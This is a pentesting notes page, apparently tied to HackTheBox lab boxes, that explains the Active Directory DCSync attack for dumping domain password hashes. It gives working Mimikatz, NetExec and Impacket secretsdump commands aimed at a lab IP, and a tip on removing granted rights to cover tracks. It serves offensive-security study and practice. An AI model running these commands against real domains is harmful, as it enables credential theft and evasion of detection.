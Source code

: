 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## TL;DR

<div align="left">

<figure><img src="../../../.gitbook/assets/dcsync_attack.png" alt=""><figcaption><p>DCSync in a nutshell!</p></figcaption></figure>

</div>

DCSync is late-phase attack that allows an attacker to **mimic a DC** and then dump `ntds.dit`. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

{% hint style="info" %}
**Domain/Enterprise Admins** have these rights by default. If we have **`WriteDacl`**rights over an account, we can assign DCSync rights to it, execute the DCSync attack, and then remove them to attempt to cover our tracks.&#x20;

An example of this can be seen in the [privilege escalation part of the Forest box](../../../boxes/easy/forest.md#privilege-escalation).
{% endhint %}

## Windows

{% tabs %}
{% tab title="Dsacls*" %}
```powershell
dsacls "DC=domain,DC=local"
```
{% endtab %}

{% tab title="Mimikatz" %}
```powershell
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
\*[dsacls](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151\(v=ws.11\)) requires an elevated command prompt.
{% endhint %}

## Linux

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
```
{% endtab %}

{% tab title="Impacket" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
</strong></code></pre>
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Forest (Easy)" %}
{% content-ref url="../../../boxes/easy/forest.md" %}
[forest.md](../../../boxes/easy/forest.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sauna (Easy)" %}
{% content-ref url="../../../boxes/easy/sauna.md" %}
[sauna.md](../../../boxes/easy/sauna.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="DCSync" %}
{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}
{% endtab %}

{% tab title="Secretsump" %}
{% embed url="https://www.youtube.com/watch?v=QfyZQDyeXjQ" %}
How Secretsdump script work behind the scenes!
{% endembed %}
{% endtab %}
{% endtabs %}
